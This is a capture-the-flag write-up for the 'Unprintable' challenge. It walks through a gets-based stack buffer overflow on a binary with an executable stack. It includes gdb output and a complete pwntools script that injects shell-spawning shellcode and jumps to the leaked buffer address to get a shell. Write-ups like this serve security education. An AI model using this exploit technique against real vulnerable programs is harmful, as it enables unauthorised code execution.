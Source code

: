 ```yaml
---
title: "OSU League 2020/2021 - Unprintable Writeup"
date: 2020-10-30
draft: false
description: ""
tags: ["ctf"]
---
```

## Writeup
We are given a binary, so let's see what it does:
```
I found some empty room in the RAM on this system, and prepared some especially for you!
But I'm worried you might put something evil in it, so I'm not going to print it out
Here's your special RAM, happy birthday!: 0x7ffd617472f0
What are you going to do with it?
I wanna consume it
I hope you enjoyed your memory!
```

Hmm, looks like we are given a memory address along with a place to put some text.  Usually with challenges like these, the memory address given is the address of the buffer, we can verify this in a bit, but for now lets look at what securities the binary has using `pwn checksec unprintable`:

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```

Hmm, NX is disabled, meaning the stack is excecutable.  That means we can probably excecute shellcode on the stack.  Now let's open up the binary in gdb and see what's going on.

Running `info functions`, we get a list of the functions used in the program.  Its seems like the `input` function is the one we are looking for, so let's disassemble that.

```
gdb-peda$ disass input
Dump of assembler code for function input:
   0x00000000000006ca <+0>:	push   rbp
   0x00000000000006cb <+1>:	mov    rbp,rsp
   0x00000000000006ce <+4>:	sub    rsp,0x70
   0x00000000000006d2 <+8>:	lea    rax,[rbp-0x70]
   0x00000000000006d6 <+12>:	mov    rsi,rax
   0x00000000000006d9 <+15>:	lea    rdi,[rip+0xf8]        # 0x7d8
   0x00000000000006e0 <+22>:	mov    eax,0x0
   0x00000000000006e5 <+27>:	call   0x590 <printf@plt>
   0x00000000000006ea <+32>:	lea    rdi,[rip+0x117]        # 0x808
   0x00000000000006f1 <+39>:	call   0x580 <puts@plt>
   0x00000000000006f6 <+44>:	lea    rax,[rbp-0x70]
   0x00000000000006fa <+48>:	mov    rdi,rax
   0x00000000000006fd <+51>:	mov    eax,0x0
   0x0000000000000702 <+56>:	call   0x5a0 <gets@plt>
   0x0000000000000707 <+61>:	nop
   0x0000000000000708 <+62>:	leave  
   0x0000000000000709 <+63>:	ret    
End of assembler dump.
```
We can set a breakpoint right before the leave instruction to get a view of the stack right before returning.

```
gdb-peda$ break *input+61
Breakpoint 1 at 0x707
gdb-peda$ r
Starting program: /home/perchik/CTF/osuleague/week3/unprintable
I found some empty room in the RAM on this system, and prepared some especially for you!
But I'm worried you might put something evil in it, so I'm not going to print it out
Here's your special RAM, happy birthday!: 0x7fffffffde60
What are you going to do with it?
gimme cookies

[----------------------------------registers-----------------------------------]
RAX: 0x7fffffffde60 ("gimme cookies")
RBX: 0x0
RCX: 0x7ffff7dcfa00 --> 0xfbad2288
RDX: 0x7ffff7dd18d0 --> 0x0
RSI: 0x6f6f6320656d6d69 ('imme coo')
RDI: 0x7fffffffde61 ("imme cookies")
RBP: 0x7fffffffded0 --> 0x7fffffffdee0 --> 0x555555554750 (<__libc_csu_init>:	push   r15)
RSP: 0x7fffffffde60 ("gimme cookies")
RIP: 0x555555554707 (<input+61>:	nop)
R8 : 0x55555575667e --> 0x0
R9 : 0x7ffff7fe04c0 (0x00007ffff7fe04c0)
R10: 0x555555756010 --> 0x0
R11: 0x246
R12: 0x5555555545c0 (<_start>:	xor    ebp,ebp)
R13: 0x7fffffffdfc0 --> 0x1
R14: 0x0
R15: 0x0
EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
```

Sweet!  Looks like the address given is indeed the start of our buffer. Now to figure out how big that buffer is.  We can run it again, and this time lets look at the stack frame and calculate the offset of the saved rip and the address leak we were given.

```
Saved registers:
  rbp at 0x7fffffffded0, rip at 0x7fffffffded8
```

Subracting these two we end up getting a buffer that is 120 bytes.  So now we have everything we need to craft our exploit!

I used pwntools to craft the exploit, as it streamlines many things such as creating shellcode, connecting to a remote binary, etc.  

```python
from pwn import *
io = remote('ctf.ropcity.com', 31337)
#io = process("./unprintable")
#io = gdb.debug("./unprintable")
context.update(arch='amd64', os='linux')

io.recvuntil("birthday!: ")

address = int(io.recvline()[2:-1], 16)
shell = shellcraft.sh()
shellcode = asm(shell)
payload = shellcode.ljust(120, b'A')
payload += p64(address)

io.recvuntil("What are you going to do with it?")
io.sendline(payload)

io.interactive()
```

And running it we get a shell!!!

```
[+] Opening connection to ctf.ropcity.com on port 31337: Done
[*] Switching to interactive mode
$ cat flag
osu{i_c0uldnt_pr1nt_th4t_1f_I_tRi3ed!!!1!}
```

Woot! Learned a lot about getting shellcode working in pwntool, as well as using ljust to fill the buffer.  Super fun challenge!
